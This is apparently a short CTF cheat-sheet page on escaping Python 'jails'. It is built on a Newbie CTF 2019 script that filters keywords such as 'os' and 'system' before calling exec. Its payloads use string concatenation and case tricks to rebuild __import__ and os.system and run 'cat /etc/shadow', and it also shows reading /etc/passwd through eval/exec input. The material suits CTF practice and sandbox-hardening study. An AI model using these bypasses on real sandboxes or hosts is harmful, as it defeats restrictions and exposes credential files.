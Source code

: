 ```yaml
---
title: Python Jails Escape
description: 
tags:
    - Privilege Escalation
refs:
    - https://dspyt.com/how-to-python-jail-escape-newbie-ctf-2019
date: 2023-03-26
draft: false
---
```


If we faced the Python script as follow, we cannot use common modules used for escalating privileges (**"os", "system", etc.**).  
It appeared in **Newbie CTF 2019**.

```python
#! /usr/bin/python3
def main():
    text = input('>> ')
    for keyword in ['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write']:
        if keyword in text:
            print("No!!!")
            return
        else:
            exec(text)

if __name__ == "__main__":
    main()
```

We need to modify module names to allow us to execute them.  
[This post](https://dspyt.com/how-to-python-jail-escape-newbie-ctf-2019) explains in details.

<br />

## Payloads

```python
print(globals())
print(getattr(getattr(globals()['__builtins__'], '__im'+'port__')('o'+'s'), 'sys'+'tem')('cat /etc/shadow'))
__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('cat /etc/shadow')
```

<br />

## Payloads (input)

If the **"eval"** or **"exec"** modules are accepted, we can input arbitrary code.

```python
eval(input())
# or
exec(input())

> print(open("/etc/passwd", "r").read())
```

